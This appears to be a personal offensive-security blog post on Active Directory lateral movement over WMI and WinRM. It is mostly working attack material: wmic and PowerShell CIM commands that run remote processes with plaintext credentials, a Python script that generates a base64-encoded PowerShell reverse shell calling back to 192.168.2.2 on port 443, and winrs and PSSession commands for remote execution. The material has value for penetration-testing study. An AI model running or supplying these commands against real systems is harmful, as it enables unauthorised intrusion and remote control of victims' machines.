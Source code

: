 ```yaml
---
layout: post
title: Active Directory Lateral Movement
titledate: 09/29/23
tags: ["infosec", "offsec", "ad", "powershell", "evil-winrm"]
---
```


#### lateral with wmi and winrm

#### wmi

here we use wmic to create a process

    C:> wmic /node:192.168.1.1 /user:jim /password:pass123! process call create "calc"

replicating the same attack in powershell

```powershell
$username = 'jim';
$password = 'pass123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.1.1 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

    PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

to create a reverse shell we can ditch the calc and insert our useable shellcode

the following is a python script that creates a reverse shell in powershell and base64 encodes it

```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.2.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
when run this script will print the powershell command that can be added to the $command = part above 

now when we edit the ip and open a nc listener on 443 we will get a reverse shell

#### winrm

another remote management 

winrm only works for domain users and sends xml over 5985 and 5986 http/https

    C:> winrs -r:files04 -u:jen -p:pass123!  "cmd /c hostname & whoami" 

to execute our reverse shell we just addthe powershell -nop -w hidden -e reverseshellbase64

powershell also has winrm functionality

    PS:shawn> $username = 'jim';
    PS> $password = 'pass123!';
    PS> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
    PS> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    PS> New-PSSession -ComputerName 192.168.1.1 -Credential $credential

so now we can enter the newly created session

    PS> Enter-PSSession 1
    PS:jim>

### NOTE: powershell seems to work better

